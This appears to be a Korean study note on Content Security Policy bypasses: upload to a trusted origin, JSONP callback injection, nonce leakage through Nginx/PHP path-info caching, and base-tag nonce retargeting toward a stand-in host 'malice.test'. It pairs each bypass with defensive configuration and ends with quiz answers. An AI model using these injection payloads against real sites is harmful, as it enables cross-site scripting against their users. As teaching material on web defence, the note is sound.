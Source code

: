 # CSP 우회  
## 신뢰하는 도메인에 업로드  
CSP를 이용하면 브라우저가 **특정 출처에서만 자원을 불러오게끔 제한**함  
그러나 만약 해당 출처가 **파일 업로드 및 다운로드 기능을 제공**한다면, 공격자는 **그 출처에 스크립트를 업로드**한 뒤 **다운로드 경로로 웹 페이지에 자원을 포함**시킬 수 있음.  
```html
<meta http-equiv="Content-Security-Policy" content="script-src 'self'">
...
<h1>검색 결과: <script src="/download_file.php?id=177742"></script></h1>
```
위의 코드처럼 **허용한 출처**에 파일을 **업로드**하고 그 파일(악성 파일일 수도...)을 **다운로드** 할 수 있다.  

### JSONP API  
만약 **허용한 출처**에 **JSONP API**를 지원하면 **callback** 파라미터에 스크립트를 삽입해서 공격 가능!!  

예시로 ***.google.com** 의 출처만 허용할 때, 구글에서 **JSONP API를 지원하는 서버**를 찾아서 **callback**을 사용할 수 있다.  
```http
https://accounts.google.com/o/oauth2/revoke?callback=alert(1);
```
위처럼 callback의 파라미터로 스크립트를 넣을 수 있다.  

그래서 이를 막기 위해 callback 파라미터에 **식별자를 제외한 문자를 거부**해서 방어할 수 있다.  
```html
<meta http-equiv="Content-Security-Policy" content="script-src 'https://*.google.com/'">
...
<script src="https://accounts.google.com/o/oauth2/revoke?callback=alert(1);"></script>
<!-- JSONP API 결과:
// API callback
alert(1);({
  "error": {
    "code": 400,
    "message": "Invalid JSONP callback name: 'alert(1)'; only alphabet, number, '_', '$', '.', '[' and ']' are allowed.",
    "status": "INVALID_ARGUMENT"
  }
}
);
-->
```
위처럼 JSONP API의 문자 검사를 할 수 있다.  
#### JSONP란?  
**JSONP(JSON with Padding)** 은 웹 애플리케이션에서 **서로 다른 도메인**(Cross-Origin) 간에 **데이터를 주고받을 때** 사용되는 기술  

## nonce 예측 가능  
CSP의 **nonce**를 이용하면 **공격자가 예측할 수 없는 nonce 값**이 태그 **속성에 존재할 것을 요구**함으로써 **XSS 공격을 방어**할 수 있습니다.  
-> 알기 힘든 nonce 값이 태그에 있어야 스크립트를 허용한다.  
nonce를 사용할 때 주의해야할 사항이 몇가지 있다.  
1. **HTTP 헤더** 또는 **meta** 태그가 **캐싱**되지 않는지 주의해야 합니다. 
2. **PHP나 CGI 계열 스크립팅**을 사용할 때에는 스크립트들이 /index.php/style.css처럼 **뒤에 추가적인 경로를 붙여 접근**될 수 있기 때문입니다.  

만약 **확장자**를 기반으로 캐시 여부를 판단하면, **css** 파일은 보통 정적 파일이므로 **캐시에 저장할 수 있음**.  
-> 이 경우는 **캐시가 만료될 때까지** **같은 nonce**를 가지기 때문에 이를 통해 nonce 값을 얻을 수 있다.  

또한 nonce 값은 안전한 의사 난수 생성기(CSPRNG)를 사용하는 것이 좋음  

```
location ~ \.php {
    include snippets/fastcgi-php.conf;
    fastcgi_pass unix:/run/php/php7.2-fpm.sock;
}
```
위는 **Nginx와 PHP FastCGI SAPI(php-fpm)** 를 사용하였을 때의 예시이다.  

```html
<script nonce="{고정된 nonce 값}">alert(1);</script>
```

```# regex to split $uri to $fastcgi_script_name and $fastcgi_path
fastcgi_split_path_info ^(.+\.php)(/.+)$;

# Check that the PHP script exists before passing it
try_files $fastcgi_script_name =404;

# Bypass the fact that try_files resets $fastcgi_path_info
# see: http://trac.nginx.org/nginx/ticket/321
set $path_info $fastcgi_path_info;
fastcgi_param PATH_INFO $path_info;

fastcgi_index index.php;
include fastcgi.conf;
```
**fastcgi-php.conf**의 내용 일부이다.  
위의 설정에서 **/dom_xss_vulnerable.php/style.css** 의 주소로 접근하면 **dom_xss_vulnerable.php 파일이 실행**되어 nonce 가 **meta http-equiv="Content-Security-Policy" content="... nonce ..."** 태그로 출력된다.  
-> 이를 통해 nonce 값을 알 수 있음  

```
location ~ \.php$ {
    try_files $uri =404;
    fastcgi_index index.php;
    include fastcgi.conf;
    fastcgi_pass unix:/run/php/php7.2-fpm.sock;
}
```
위는 php 중복 방지 예시이다.  
**PATH_INFO** 사용하지 않으면, **URL의 끝 부분이 .php일때만 FastCGI로** 넘어가게 수정해야함.  
그리고 a/b.php/c/d.php와 같이 **.php가 중복 사용**될 때를 대비하여 fastcgi-php.conf 스니펫을 사용하지 않고 위처럼 php 중복을 방지해야 한다.  

## base-url 미지정  
하이퍼링크에서 **주소 없이 경로를 지정**하면 **현재 문서를 기준**으로 주소를 해석합니다.  
**base** 태그로 경로가 해석되는 기준과 **a, form** 등의 **target** 기본 값을 지정함  

만약 
```html
<base href="https://malice.test/xss-proxy/">
```
와 같은 markup을 삽입하면, 의도한 위치가 아닌 URL로 이동할 수 있다.  

```http
Content-Security-Policy: base-uri 'none'
```
그래서 위처럼 **base** 태그의 **href** 를 사용하지 않는다면 다음과 같이 **base-uri**를 거부해서 방어할 수 있다.  

```html
<base href="https://malice.test">
<script src="/jquery.js" nonce=NONCE> 
<!-- jquery.js는 base 태그에 의해 https://malice.test/jquery.js를 가리킵니다. -->
```
**base-uri CSP 구문이 없다**면 위처럼 **base 태그**를 이용하여 임의 자원을 로드할 수 있다.  
이와 같은 공격을 **Nonce Retargeting** 라고 한다.  

# 퀴즈  
1. script nonce 와 관련하여 옳지 못한 설명은 무엇인가?  
**답** : 웹사이트에 미리 접속하여 nonce를 복사해와서 사용하면 CSP를 우회할 수 있다.  
2. 지시문이 없을 경우 'default-src'를 참조하지 않는 지시문은 무엇인가?  
**답** : base-uri  
